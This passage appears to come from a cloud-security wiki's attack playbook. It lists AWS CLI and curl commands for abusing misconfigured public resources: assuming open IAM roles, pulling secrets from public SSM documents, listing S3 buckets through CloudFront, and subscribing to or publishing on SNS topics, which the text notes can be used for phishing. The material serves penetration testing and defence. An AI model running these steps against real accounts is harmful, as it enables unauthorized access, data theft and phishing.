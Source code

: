 While the OIDC misconfigurations can be exploited from the internet, the attacks are more complex than what this document aims to help with. Please reefer to the original or related articles around the aforementioned attacks.
`# Assuming a public role role_name=example-role # Try to assume role aws sts assume-role \     --role-arn arn:aws:iam::123456789012:role/$role_name \     --role-session-name any-name  # Configure returned credentials aws --profile any-name configure set aws_access_key_id $access_key_id aws --profile any-name configure set aws_secret_access_key $secret_access_key aws --profile any-name configure set aws_session_token $session_token  # Validate credentials aws --profile any-name sts get-caller-identity`

### SSM Documents[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#ssm-documents "Permanent link")
`# Search by name prefix aws ssm list-documents --filters "Key=Owner,Values=Public" "Key=Name,Values=hackingthe.cloud"  # Search by owner with jq # Takes 15-30 seconds to execute # Copy the value from the "Name" field aws ssm list-documents --filters "Key=Owner,Values=Public" | jq '.DocumentIdentifiers[] | select(.Owner | contains("123456789012"))'  # List document versions # Different versions can have different # secrets or details aws list-document-versions --name $document_name  # Get document details # If the document has more versions you can use --document-version $number # to get details about that version # If version is not specified then the default one is used aws ssm describe-document --name $document_name  # Get the actual content of the document # Use --document-version $number if multiple versions aws ssm get-document --name $document_name`

### CloudFront[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#cloudfront "Permanent link")
If the CloudFront distribution has as origin a misconfigured S3 bucket, then even if the bucket is configured to block public access, it might be possible to list the bucket by accessing the distribution's URL. In order for this to work the bucket policy needs to allow "s3:ListBucket" for the CloudFront's Origin Access Identity (OAI). Most likely you will not encounter this outside a lab.

`# Try to list the bucket (Should not work) # You won't know the bucket if you only have the distribution's URL aws s3 ls s3://example-bucket  # Access the distribution and list the files curl https://example1234567.cloudfront.net  # Read sensitive files curl https://example1234567.cloudfront.net/$file`

## 2. Can't be found from a black-box perspective[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#2-cant-be-found-from-a-black-box-perspective "Permanent link")
These services can't be identified from a purely black-box perspective (exception the Public ECR), but they can be misconfigured so that they can be accessed from any external AWS account. For most of these services you need additional information that most likely you'll not find from the internet, brute-forcing or similar techniques.

### SNS Topics[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#sns-topics "Permanent link")
`# List topic subscribers # This will return the subscribers which can be # email addresses or other services like SQS queues # that might be public as well aws sns list-subscriptions-by-topic --topic-arn arn:aws:sns:$region:123456789012:example-topic  # Get topic attributes aws sns get-topic-attributes --topic-arn arn:aws:sns:$region:123456789012:example-topic  # Subscribe to the topic # If you subscribe you will get a confirmation # email with a link you have to access # After confirming you will receive any messages sent # to the topic aws sns subscribe --topic-arn arn:aws:sns:$region:123456789012:example-topic \         --protocol email \         --notification-endpoint $email_address  # Publish to topic # All subscribers will receive this message # This can be leveraged to perform phishing attacks aws sns publish --topic-arn arn:aws:sns:$region:123456789012:example-topic --message "This is the email body" --subject "This is the email subject"`
